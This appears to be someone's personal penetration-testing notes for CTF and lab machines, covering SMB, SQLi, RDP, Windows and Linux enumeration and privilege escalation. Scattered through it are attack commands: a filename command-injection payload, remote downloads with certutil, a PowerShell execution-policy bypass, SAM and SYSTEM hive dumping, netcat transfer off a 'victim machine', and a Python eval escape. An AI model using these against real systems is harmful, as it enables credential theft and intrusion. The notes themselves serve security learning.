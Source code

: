 # Service Enumeration

## SMB

- https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html
- `nmap IP --script 'smb-vuln\*' -p139,445`
- `smbmap -H IP`
- Sometimes the following error occurs
	- `protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED`
	- https://forums.offensive-security.com/showthread.php?26657-enum4linux-and-smbclient-fix-for-quot-protocol-negotiation-failed-NT_STATUS_CONNECTION_DISCONNECTED-quot&highlight=version
	- The fix was to add `client min protocl = LANMAN1`

## SQLi

- Try basic payloads
	- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md
- **Don't use sqlmap**
- https://www.exploit-db.com/raw/12975
	- MSSQL 
	- see MAIL

## RDP

- If in remmina it doesn't connect try to change the `security protocol negotiation` to RDP
- If in case you have to use proxy in remmina and SSH tunnel won't do then do the following
	- Add the connection via remmina GUI without any SSH tunnel
	- go to `.local/share/remmina/` and find the file
	- Add all proxy setting there(https://gitlab.com/Remmina/Remmina/-/merge_requests/1927)   - Backups mostly contains .gz or .bak, if any file with non root perms is there or any file without those extension then check that out.

# General

* If you have downloaded the VM from Website like Vulnhub or any other website then make sure you run it in `host-only` mode. Even though Vulnhub can be super trusted but still it's good to be paranoid.
    - Most of the VM with `bridged` as their default network setting.
    - Also if you want to be super paranoid then go for NAT setting but I've had issues with some VMs in `NAT` network setting.

* Enumeration is the Key but only till a certain level. Lot of times the way is too guessy, too CTF type and that point `enumeration` doesn't help at all. So if you have done the basics of enumeration like for HTTP service fuzzing, dirsearch etc then don't worry it's totally okay to ask for a damn hint.

* Always take a good look of what you've found
* php file type can be bypassed by php5
* If in a file upload the output is shown meaning it's processing the upload
    - exploit it with command injection in filename like "shell.txt;id"
* Change Static IP
    - `sudo ifconfig vmnet1 10.10.10.11 netmask 255.255.255.0`
* VMware /dev/vmmon not loaded
    - `sudo vmware-modconfig --console --install-all`

* `sudo vmware-modconfig --console --install-all`
    - Fix the issue of vmware modprobe error

* If cracking password for kdbx takes longer time then try finding a key file for it.
* For git repos always check out the git logs
* If for some reason dirsearch or gobuster doesn't work on any URL or if they show every URL as the right try to use wfuzz
    - `wfuzz -c -w wordlist --hw 12 --hc 400 URL`n

## Windows

* Reverse shell for windows
    - https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/
    - If you can upload any file then try to upload `nc.exe` and use that.

* To get enumeration file use
    - `certutils -urlcache -split -f URL`
    - when powershell is present
        + `Invoke-WebRequest URL -outfile file`

* Use powerups.ps1 enumeration script
    - https://raw.githubusercontent.com/HarmJ0y/PowerUp/master/PowerUp.ps1
    - Run it with `powershell.exe -ExecutionPolicy Bypass -File .\powersup.ps1`
- checking privileges

```bash
whoami /all
whoami /priv
```

- https://github.com/itm4n/PrintSpoofer
        - Incase we need to exploit some `priv`
        - Check Disco
-  Dump SAM and System
        ```
        reg save HKLM\SAM c:\SAM
        reg save HKLM\System c:\System
        ```

-  Check file and folder permissions `cacls` or `icacls`
-  In order to see service information
        -  `sc.exe qc <servicename>`
- Path Traversal
        - https://gracefulsecurity.com/path-traversal-cheat-sheet-windows/
- Always check `whoami /priv`
- In windows run winpeas.exe like `.\winpeas.exe`
- If doing manual enum run
        - `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`i

## Linux

* Change host timezone
    - `echo "Asia/kolkata" > /etc/timezone`
    - `dpkg-reconfigure -f noninteractive tzdata`
* Always run dirsearch with extensions
    - `python dirsearch.py -f -e html,php,tar.gz,txt,xml,zip,jpg,png,jpeg -u IP LIST`
* Port knocking with nmap
    - `for x in 066 666 3432; do nmap -Pn --max-retries 0 -p $x 10.10.10.10; done`
    - If you find set of 3 numbers possible options is port knocking
* Transfer with ncat
    - `nc -q1 -lvp 1234 < file` - on victim machine
    - `nc IP 1234> file` - on attackers machine
* use `dig axfr somedomain` to actually find other zone tranfser
    - checkout tempus fugit writeup
* If enum/sudo doesn't do any good.....check for writeable dirs
    - `find / -type d 2>/dev/null`
* LFI to RCE via SSH log poisoning
    - https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/
* To escape eval in python
    - https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html
    - `eval("__import__('os').system('ls')#")``

* Remote port forwarding:
    - ssh -R port-to-frwd:internal-IP:service-port mzfr@user-IP
    - `ssh -R 44325:192.168.100.1:443 mzfr@192.168.56.1`
* If you don't find anything in /opt or /var/ then checkout /logs and /backups

